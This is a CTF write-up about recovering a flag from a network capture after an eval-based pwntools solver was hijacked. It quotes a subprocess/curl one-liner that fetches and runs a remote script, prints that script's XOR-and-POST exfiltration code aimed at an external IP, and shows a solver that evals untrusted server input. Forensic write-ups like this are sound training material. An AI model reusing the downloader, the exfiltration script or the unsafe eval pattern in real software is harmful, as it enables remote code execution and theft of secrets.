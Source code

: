 # Chall description
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate?
nc chals.sekai.team 9000
included: capture.pcapng

# Write up

Connecting to the nc returns: 
```
Welcome to this intro pwntools challenge.
I will send you calculations and you will send me the answer
Do it 100 times within time limit and you get the flag :)

7 / 5
```

run it through python eval and check each input:
```
#!/bin/python

from pwn import *

io = remote('chals.sekai.team', 9000)
for i in range(4):
    print(io.recvline())

for z in range(100):
    cal = io.recvline()
    print(cal)
    eva_cal = str(eval(cal))
    print(eva_cal)
    io.sendline(eva_cal)
    print(io.recvline())

print(io.recvline())
```

71st question returns:
```
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2 
```

Download the sh script and check it:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

Encrypted (XORd) data is posted to 35.196.65.151:30899, since we have the pcap we can recover the posted data:
```
$ tshark -r capture.pcapng -Y 'ip.src==172.26.184.35 and http.request.method=="POST"' -T fields -e json.value.string > capture.txt
```

We can then use the github sh script to re-use the decrypt function:

```
#!/bin/bash

# requirements:
#
# md5
# cut
# tr
# base64
#

Asc() { printf '%d' "'$1"; }
HexToDec() { printf '%d' "0x$1"; }

XORDecrypt() {

    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    local ptrs
    ptrs=0

    for (( ptr=0; ptr < ${#DataIn}/2; ptr++ )); do

        val1="$( HexToDec "${DataIn:$ptrs:2}" )"
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        ptrs=$((ptrs+2))

        DataOut+=$( printf \\$(printf "%o" "$val3") )

    done
    printf '%s' "$DataOut"
}

Operation="$1"

CodeKey="s3k@1_v3ry_w0w"

read -r teststring

#XORDecrypt "$CodeKey" "$teststring" | base64 -d
XORDecrypt "$CodeKey" "$teststring" 
```

use tr to delete the \\n's and run the script with the capture
```
$ tr --delete '\n' < capture.txt| ./rev.sh dec

Flag:
SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}
```